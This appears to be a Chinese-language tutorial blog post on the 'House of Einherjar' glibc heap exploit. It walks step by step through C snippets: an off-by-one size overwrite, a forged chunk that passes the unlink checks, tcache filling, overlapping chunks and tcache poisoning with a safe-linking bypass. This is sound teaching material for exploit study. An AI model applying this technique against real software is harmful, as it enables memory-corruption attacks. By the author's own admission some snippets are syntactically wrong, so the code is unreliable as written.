






House of einherjar
很难总结它的思想是什么，我感觉就是有 overflow write 的一种攻击手段吧。
要求：
1. 只需 off by one，即可以复写某块下一个块的size，其中size只用改最后一位就可以了。
2. 知道 heap 地址效果：变体版的 Doube Reference，是一个指针指向内存 A，另一个指针指向内存 B，而 A 包含了 B
前置知识
基础知识
要知道 chunk 是由重叠利用的部分。prev_size 的作用是如果 free(p)，发现 p->size 最后一位是 0，说明上一个块也是 freed，那么就会根据 prev_size 去找上一块，然后合并。
prev_size 只有在 prev 是 freed 的时候才会生效，之前可能会担心 prev->data 和 prev_size 冲突了，但挺巧妙的：
- 如果 prev 是 malloced，那么
free(p)的时候就不会往上找 prev，即不需要prev_size。因此prev_size无意义，那此时正好prev->data有意义。 - 如果 prev 是 freed，那么
prev_size有意义；而由于是 freed，正好prev->data无意义。

细节说明
通过 how2heap 的例题讲解，代码有修改，有些语法是错的。懒得自己调试了，图片和数据很多来源于这篇文章。
Step 1
申请三块内存，此时的堆空间如下。
uint8_t *a = malloc(0x38);
uint8_t *b = (uint8_t *) malloc(0x28);
uint8_t *c = (uint8_t *) malloc(0xf8); // 后续我们希望 free(c) 触发合并，所以 c 不能是 fastbin 大小

Step 2
chunkB 修改 chunkC 的 prev_size，由于 chunkB 是 malloced，所以这个修改是可以的。然后溢出修改 chunkC 的 size：
// 修改 chunkC 的 prev_size，这里可以自然修改，因为这就是 chunkB->data 的末尾
b[0x20:0x28] = 0x60;
int real_b_size = malloc_usable_size(b);
// VULNERABILITY
b[real_b_size] = 0;
由于我们修改了 c->size 的末尾 bit，如果 free(c) 的时候，会认为 c 的上一个块也已经是 freed，然后进行合并。我们的目标是合并成一个大块的时候，malloced chunkB 在 freed C 中，所以我们把 prev_size 改成了 0x60，即指向了红色框。改成 0x50 也是可以的，只要能保住 chunkB 即可。

Step 3
就上面那个图，此时 free(c) 肯定会有问题，因为他认为红色框的块也是 freed，会合并。这个红色框头部啥也没有，肯定会被检查。这里直接先给设计：

检查的代码这里挑几个重点来讲，下面是向低地址合并，即不断往前找的代码。可以看到有一个检查 chunksize(p) != prevsize，所以红色框的 size 我们要改成 c->prevsize 即 0x60。
// 从后向前合并
/* consolidate backward */
if (!prev_inuse(p)) // 如果上一个chunk是空闲的
{
prevsize = prev_size(p);
size += prevsize;
// 安全检查
p = chunk_at_offset(p, -((long)prevsize));
if (__glibc_unlikely(chunksize(p) != prevsize))
malloc_printerr("corrupted size vs. prev_size while consolidating");
// 断链上一个chunk
unlink_chunk(av, p);
}
在上面代码最后一句是解链，它的代码如下，此时的 p 就是红色框。对于安全检查 1，红色框中的 size 改成 0x60 可以通过。对于安全检查 2，则是检查 fd 和 bk 指针，如上图所示，我们设置成了 fd = bk = p，巧妙地顺利通过。因此这里隐含了一个要求：我们需要知道 heap 地址。
/* Take a chunk off a bin list. */
static void unlink_chunk(mstate av, mchunkptr p)
{
// 安全检查 1：如果当前chunk的大小不等于next chunk的prev_size，说明被篡改了数据，报错
if (chunksize(p) != prev_size(next_chunk(p)))
malloc_printerr("corrupted size vs. prev_size");
mchunkptr fd = p->fd;
mchunkptr bk = p->bk;
// 安全检查 2：如果当前chunk的fd的bk不等于当前chunk，或者bk的fd不等于当前chunk，说明双向链表链接出错，报错
if (__builtin_expect(fd->bk != p || bk->fd != p, 0))
malloc_printerr("corrupted double-linked list");
// 断链操作
fd->bk = bk;
bk->fd = fd;
// ....
}
Step 4
现在我们进行 free(c)，但是要注意如果合并后的大小在 tcache 范围内，我们还要先填满 tcache，避免落入 tcache。
// 申请七个块，再释放，这样塞满 Tcache
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
x[i] = malloc(0xf8);
}
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
free(x[i]);
}
// free(C) 触发合并
free(c)

Step 5
然后我们再来申请一次内存，从而有堆块重叠。尤其是 D 完全包裹了 B，这个算是变形版本的 Double Refrence（两个 malloced 指针指向同一片内存）。
uint8_t *d = malloc(0x158)

这里多说一句为什么 chunkD 中的第二行会改变？他经过了这样的逻辑：
- 当从 unsorted 找到后，会放入 tcache 中（0x158 这个大小的 tcache 现在是空的），所以会修改
e->fd和e->key，也就是第二行的内容。 - 然后从 tcache 拿出来的时候，会进行
e->key = 0，所以这就是为什么第二行右边是 0 了。
Step 6
现在有了变形版本的 Doulbe Refrence，chunkD 指向的内存包裹了 chunkB，我们完全就按照各种攻击方式去做就可以了。
对于 Double Refrence，常见的就是转成 tcache poisoning，即这里先 free(b)，然后利用 chunkD 修改 b->next，最后两次 malloc 就可以了。
printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
"We have to create and free one more chunk for padding before fd pointer hijacking.\n");
uint8_t *pad = malloc(0x28);
free(pad);
free(b);
d[0x30 / 8] = (long)target ^ ((long)&d[0x30/8] >> 12);
malloc(0x28);
uint8_t *result = malloc(0x28);
修改 b->next 因为 safe-linking 需要知道 heap 地址，但翻看前面的 Step 3，我们要达成攻击要知道 heap 地址，所以这也意味着 house of einherjar 可以了，那最后这步的 tcache poisoning 也可以。
补充
上面的例子中，我们能否把 chunkB 去掉？最终直接就是达到 chunkA 和 红色框 有交叠？
回答：可以，修改源代码之后发现也可以这样做。